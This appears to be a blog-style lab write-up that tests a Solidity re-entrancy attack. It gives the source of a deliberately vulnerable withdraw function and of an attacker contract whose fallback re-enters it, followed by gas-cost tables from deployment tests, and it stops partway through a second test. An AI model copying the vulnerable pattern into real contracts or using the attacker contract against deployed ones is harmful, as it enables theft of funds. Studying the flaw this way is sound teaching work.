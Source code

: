 # Solidity Analysis

## Introduction
We are testing re-entrancy attack with the following code:

```vim
pragma solidity >=0.4.0 <0.6.0;

contract VictimContractInterface {
    function withdraw() public payable;
}

contract VictimContract {
    uint256 toTransfer = 1 ether;

    function withdraw() public payable {
        msg.sender.call.value(toTransfer)("");
        toTransfer = 0;
    }
    
    function deposit() public payable {}
}

contract AttackerContract {
    address victim;
    
    constructor(address _victim) public {
        victim = _victim;
    }
    
    function attack() public {
        VictimContractInterface(victim).withdraw();
    }
    
    function () external payable {
        attack();
    }
    
    function getAttackerBalance() public view returns (uint) {
        return address(this).balance;
    }
    
    function getVictimBalance() public view returns (uint) {
        return address(victim).balance;
    }
}
```
### Action 0: Check the initial state

| Address |     1    |
| ------------- | ------- |
| Balance       | 100 ether |
| Gas limit     | 3000000        |
| Transaction cost |  - |
| Execution cost   | -  |
 
### Action 1: Deploy the contract **VictimContract**

#### Test 1 (default)

| Address          | 1(deploying VictimContract)        | VictimContract |
| ---------------- | ---------------------------------- | -------------- |
| Balance          | 100 ether -> 99.999999999999861319 |             0   |
| Gas limit        | 3000000                            |    -            |
| Transaction cost | 138681                             |    -            |
| Execution cost   | 69105                              |      -          |

![test1](/images/2019/01/Screen Shot 2019-01-13 at 2.49.58 AM.png)

The amount of transaction cost was deducted from the initial balance of the address 1.

**Transaction costs** are the costs for sending the contract code to the ethereum blockchain, they depend on the size of the contract.

**Execution costs** should be really the EVM execution costs, if I interprete the parameter `vmResult` correctly. 

[Transaction cost vs Execution cost](https://ethereum.stackexchange.com/questions/5812/what-is-the-difference-between-transaction-cost-and-execution-cost-in-browser-so)

#### Test 2 
Change the gas limit into 100000 which is less than the anount of the transaction cost in Test 1.

